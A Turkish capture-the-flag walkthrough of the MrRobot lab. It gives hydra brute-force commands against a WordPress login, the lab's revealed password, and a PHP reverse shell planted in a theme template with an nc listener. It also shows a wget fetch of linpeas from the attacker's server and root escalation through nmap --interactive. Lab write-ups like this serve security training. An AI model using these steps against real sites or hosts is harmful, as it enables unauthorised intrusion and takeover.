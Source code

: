 ## MrRobot Türkçe Çözüm

İlk olarak ıp yi arama çubuğuna yapıştırarak mrrobot sitesine erişelim.Biraz gezinelim, MrRobot'un hayran sitesi tarzında bir site.Hemen nmap ve dirb taraması yapalım.
Bunun için terminalimizi açalım ve `sudo nmap -sS -sV -A IP` yazalım.
Kullandığımız flag'lerin anlamını bu yazımda yazmayacağım çünkü MrRobot odası orta seviye. Eğer flag'lerin ne işe yaradığını bilmiyorsanız terminale "nmap" yazarak ne anlama geldiğini öğrenebilirsiniz.
Bunun yanında bir de dirb araması yapalım bunun için; termianle `dirb http://IP` yazmamız yeterli olacaktır.Biraz bekledikten sonra dirb taraması bize `robots.txt`'nin var olduğunu söyleyecektir (veya kendi elimizle denersek :D, çoğunlukla el alışkanlığı olarak sitelere deneriz.)
Robots.txt'ye girerek (ip'nin sonuna /robots.txt yazın) erişebileceğimiz 2 dosya olduğunu görüyoruz.Dosyalardan _fsocity.dic_'i bilgisayarımıza indirelim ve sonra da _key-1-of-3.txt_'yi deneyelim. Evet ilk flag'imizi bulduk. Şimdi sıra _fsocity.dic_'i incelemekte.Bir çeşit brute force için yapılmış bir dosya gibi duruyor. İçerisinde bir sürü kelime barındırıyor; bunları sitenin admin panelini bulup brute force yapmak için kullanabiliriz.Şimdi siteye geri dönelim, eğer biraz kurcalarsak (dirb'in bulduğu şeylere girip bakarsak mesela) sitenin aslında bir wordpress sitesi olduğunu öğreneceğiz. Bunun için dirb taramasından bulunan /atom'a bakarsak bir atom dosyası indirilecek bilgisayara.Dosyayı incelediğimizde **another wordpress site** yazısını görebiliriz.Bundan sonra hemen admin paneline erişmek için /wp-login yazmamız yeterli çünkü wordpress sitelerinin admin paneline bu şekilde erişiliyor,tabi site sahibi değiştirmediyse (yani bu varsayılan).Şimdi **hydra** kullanarak indirdiğimiz _fsocity.dic_ dosyasını da birlikte kullanarak bir bruteforce yapalım.Burası biraz karmaşık gelebilir.İlk önce şunu söylemem gerekli wordpress admin paneline giriş için herhangi bir kullanıcı adı ile şifre denediğimizde bize böyle bir kullanıcı adının olmadığını söylüyor.Biz buraya eğer ki doğru kullanıcı adını girersek site bize bu kullanıcı adı için yanlış şifre girdiğimizi söylüyor.Bizim brute force yapabilmemiz için de kullanıcı adına ihtiyacımız var.Biraz mantıklı düşündükten sonra (kullanıcı adı ne olabilir diye) elliot oldukça mantıklı geliyor :D ve deniyoruz.Kullanıcı adını böylece bulmuş olduk(burada bir şey söylemem gerek.Aslında kullanıcı adını tehmin etmemize gerek olmayabilirdi, indirdiğimiz fsocity.dic dosyasını kullanarak hydra ve burpsuite yardımıyla doğru kullanıcı adını bulabilirdik ama burası hem karmaşık hem de uzun olduğundan dolayı burayı es geçiyorum.Size bunun hakkında bir video linki bırakıyorum fakat ingilizce :(( şifreyi de aynı şekilde çözeceğiz mutlaka bakmanızı öneriyorum.Kilit nokta doğru hata mesajını yazmakta,videoyu izledikten sonra analaycaksınız LİNK).Şimdi hydra ile bruteforce yapma zamanı.Az önce verdiğim videoda gerekli kodları nasıl çıkartacağımızı görebilirsiniz.Ben yazının uzamasını istemediğimden kodu buraya bırakıyorum (sudo hydra -l elliot -P ~/Desktop/deneme.txt IP -V http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=incorrect") kısaca bashetmek gerekirse -l flag'i kullanıcı adı yerine yazması gerektiği kelimeyi veya dosyayı yazıyor,yani yanına elliot yazıyoruz -P flag'i de şifre için dosya yazıyor.Şifre ve kullanıcı adını girmesi gereken yerleri; ^USER^ ve ^PASS^ şeklinde belirliyoruz(devamı videoda :D).Şifreyi bulması biraz uzun sürdüğünden dolayı size şifreyi buraya bırakıyorum ;) (ER28-0652).Şu anda admin panelinin içerisindeyiz.Tema düzenleyerek içeriye bir reverse shell yerleştirelim ve ana bilgisayara erişim kazanalım. Bunun için appearance kısmından editor kısmına giriyoruz ve 404template'i düzenliyoruz. reverse shell php kodumuzu buraya yapıştıracağız ama bundan önce size reverse shell dosyası vereyim :D bu dosyada değiştirilmesi gereken ip ve port kısmı var ip ye kendi ip mizi yapışıtırıyoruz sonra terminali açıp nc -lvnp 4444 yazıyoruz (4444 port, istediğinizi yazabilirsiniz) şu anda kendi ip'miz üzerindeki 4444 portunu dinliyoruz.Şimdi reverse shell dosyasındaki port kısmında dineldiğimiz portu yazıyoruz (4444 yazmıştım ben) yazıyoruz.Şimdi o tüm yazıları kopyalayıp editor kısmındaki 404 template ye yapıştırıyoruz.Alt taraftan update file dedikten sonra ıp/404.php yazarak kodumuzu aktifleştiriyoruz.Dinlemeye aldığımız terminale bakarsak shell'imiz geldi (ana bilgisayara erişim).Bu shell oldukça kullanışsız eğer bu shell'i geliştirmezsek istediğimiz şeyleri kullanamayız mesela sudo -l.Bu yüzden shell'i kullanışlı hale getirelim yani bir nevi üst sürüme taşıyalım.Bunun için basit bir python kodu kullanacağız.Nasıl çalıştığını burada açıklamayacağım.python kodu :(python -c 'import pty; pty.spawn("/bin/bash")').Bu kodu terminale yapıştrın veee işte! Güzel,kullanışlı bir shell'imiz oldu.Artık istediğimizi yapabiliriz.Şimdi terminalde "ls" yaptığımız zaman bir sürü dosya göreceğiz.Biz home'a girelim,bunun için cd home yapalım.İçinde robot klasörü var.Onun içinde de 2.flag'imiz ve bir dosya var.2 dosyayı da cat edelim.Gördüğünüz gibi flag dosyasını açamadık çünkü yetkimiz yetmedi ama password dosyası açıldı.Hemen kullanıcı değiştirmeyi deneyelim bunun için "su robot" yazalım ve robotun karşısındaki şifreyi girelim (yani yapıştıralım :D).Şifrenin yanlış olduğunu anlamış olduk.Demek ki bu elimizdeki rastgele gibi yazılmış olan şey bir şifreli yazıymış.Bunun için online olarak bu tür kodları çevirebileceğimiz siteler.Var benim kullandığım site bu LİNK.Şifremizi bulduğumuza göre şimdi bir kez daha "su robot" yapabiliriz.Evet, kullanıcı yetkimizi robot kullanıcısına yükseltmiş olduk.Şimdi açamadığım flag dosyasını açmayı deneyelim.Açıldı, 2.flag'imizi bulmuş olduk.Şimdi sıra 3.flag'de.Bunun için tekrar dosyalara göz atmaya başlayalım.Root dosyasına girmek istediğimizde yetkimizin yeterli olmadığını söylüyor.Kendimizi root kullanıcısına yükseltmemiz gerekiyor.Bunun için oldukça basit bir numara var terminale "sudo -l" yazdığımız zaman hangi uygulamaları root yetkisine ihtiyaç olmadan kullanabileceğimizi gösteriyor.Hemen denersek ve robot için olan şifreyi girersek maalesef ki robot kullanıcısının sudo komutunu kullanamadığını görüyoruz (offf amma uğraşıtrdı :D).Şimdi yapmamız gereken şey linpeas uygulamasını bu bilgisayara aktarmak ve sonra da çalıştırmak.Linpeas uygulaması da "sudo -l" komutunun yaptığı işin biraz abartılı ve detaylsını yapıyor. Kısacası neredeyse root'suz yani sudo komutu olmadan kullanabileceğim her şeyi gösteriyor.Bunun için sizin de linpeas uygulamasına ihtiyacınız olacak o yüzden buraya linkin bırakıyorum LİNK.İlk olarak kendi bilgisayarımızda bir server oluşturacağız ve diğer bilgisayardan bağlanarak linpeas uygulamasını çekeceğiz.Bunun için terminale (python -m SimpleHTTPServer ) yazıyoruz.Serverimiz oluşturuldu ve portumuz da terminalde yazıyor.Şimdi öbür terminale yani kurban bilgisayara geçip;cd /tmp/ yapıyoruz çünkü bir tek tmp klasörüne bir şeyler yazma iznimiz var.Sonrasında "wget IP:PORT/linpeas.konumu(/Desktop/linpeas.sh)" şeklinde yazıyoruz.Linpeas indirildi şimdi ilk olarak "chmod +x linpeas.sh yazıp kullanılabilir hale getiriyoruz.Sonrasında ./linpeas.sh yazıp uygulamayı açıyoruz.Resimde de görüldüğü gibi "nmap" rootsuz kullanılabilir.İnternette nmap açığını kullanarak nasıl root yetkisine kavuşabileceğimizi araştıralım.Benim en çok kullandığım site (GTFObins).Bu sitede arama kısmına nmap yazalım ve bize root'a kavuşmamız için kodları göstersin.Bu kod işimize yarayacak (nmap --interactive nmap> !sh).İlk olarak nmap --interactive yazalım ve nmap açılsın, nmap> işareti çıkınca da ! sh yazalım.# geldiğine göre artık istediğimizi yapabiliriz.Hemen root konumuna gidelim ve bayrağımızı alalım.
